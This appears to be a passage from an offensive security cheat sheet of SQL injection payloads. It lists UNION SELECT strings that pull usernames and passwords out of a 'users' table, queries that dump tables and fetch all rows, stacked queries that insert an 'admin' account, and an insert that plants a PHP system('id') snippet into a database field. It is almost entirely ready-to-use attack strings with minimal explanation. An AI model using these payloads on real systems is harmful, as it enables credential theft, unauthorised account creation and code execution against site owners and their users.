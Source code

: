 Get information in the table.  
For instance, suppose we want to get the username and password from the table named 'users'.

```txt
' UNION SELECT username,password FROM users--
' UNION SELECT username,password FROM users-- -

' UNION SELECT username || '~' || password FROM users--
' UNION SELECT username || '~' || password FROM users-- -

' UNION SELECT NULL,username || '~' || password FROM users--
' UNION SELECT NULL,username || '~' || password FROM users-- -

' UNION SELECT username,password FROM users WHERE username='admin' AND password='password1'--
' UNION SELECT username,password FROM users WHERE username='admin' AND password='password1'-- -

' UNION SELECT username,password FROM users WHERE username='admin' OR password='password1'--
' UNION SELECT username,password FROM users WHERE username='admin' OR password='password1'-- -

' UNION SELECT username,password FROM users WHERE username='admin' AND password LIKE 'pas%'--
' UNION SELECT username,password FROM users WHERE username='admin' AND password LIKE 'pas%'-- -
```

**BINARY**: Sensitive to upper case and lower case.

```txt
' UNION SELECT username,password FROM users WHERE username='admin' AND BINARY password='PassWord'--
' UNION SELECT username,password FROM users WHERE username='admin' AND BINARY password='PassWord'-- -
```

### Dumping Table

```html
' UNION SELECT table_name FROM table_name--
' UNION SELECT table_name,NULL FROM table_name--
```

<br />

## Fetch All Entities

```txt
' UNION SELECT * FROM users-- -
'; SELECT * FROM users-- -
```

<br />

## Modify/Insert Data

### Insert Arbitrary Data

```html
' INSERT INTO users (username, password) VALUES ('admin', 'pass')-- -
'; INSERT INTO users (username, password) VALUES ('admin', 'pass')-- -

<!-- Insert a payload -->
' INSERT INTO products (id, name, price) VALUES (999, "<?php system('id'); ?>", 10)-- - 
```
